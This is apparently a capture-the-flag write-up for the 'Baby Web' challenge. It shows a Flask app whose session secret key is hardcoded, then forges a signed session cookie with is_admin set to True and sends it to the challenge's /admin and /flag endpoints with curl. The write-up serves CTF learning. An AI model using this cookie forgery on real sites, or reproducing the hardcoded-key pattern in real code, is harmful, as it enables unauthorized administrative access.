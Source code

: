 ```yaml
---
title: Baby Web Writeup
date: 2024-04-25
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```

# 0x01

### Source code:

```python
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)
```

When we looked at the source code, we will find that this challenge has a secret_key of "baby-web" and we are able to get the flag by changing the cookie to get admin.

# 0x02
## Session

Session is to store information that is related to a user, across different requests(https://testdriven.io/blog/flask-sessions/)

In python, a secret key will be used to securely sign session cookies. This safety feature is to prevent tampering and unauthorised access to user's data

At here, we can see that the secret_key is "baby-web",
what we can do is to use a decoder tool to get the exact content of the cookie by using the secret_key

```json
{'is_admin': False}
```

By using the decoder we can see that the decoded content is '{'is_admin': False}'

What we need to do is to change it into '{'is_admin': True}', encoding it and use that as the cookie

```bash
curl -s "http://challs.nusgreyhats.org:33338/admin" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

# 0x03

After sending the request, from the response

```html
  <button hx-get="/flag" hx-swap="outerHTML" class="btn btn-secondary">Here is an even more secret button.</button>            
```

We still need to access "/flag" to get the flag

```bash
curl -s "http://challs.nusgreyhats.org:33338/flag" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

By using this, we are able to get the flag
